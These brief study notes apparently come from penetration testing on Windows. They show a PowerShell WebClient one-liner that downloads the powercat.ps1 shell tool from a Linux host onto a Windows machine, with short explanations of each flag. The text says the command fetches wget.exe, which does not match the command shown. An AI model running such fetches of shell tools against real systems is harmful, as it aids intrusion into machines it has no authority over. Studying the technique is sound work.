 # Windows Notes

### File Transfers
Start a server on linux machine
Enter following command on windows client
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://192.168.7.46:8000/powercat.ps1','C:\Files\Tech\tmp\powercat.ps1')"
```
Attempts to download wget.exe from linux server.

`-c` executes supplied command (in double quotes)
`new-object` for .net framework or com object
`WebClient`  WebClient class is used to access resources identified by a URI


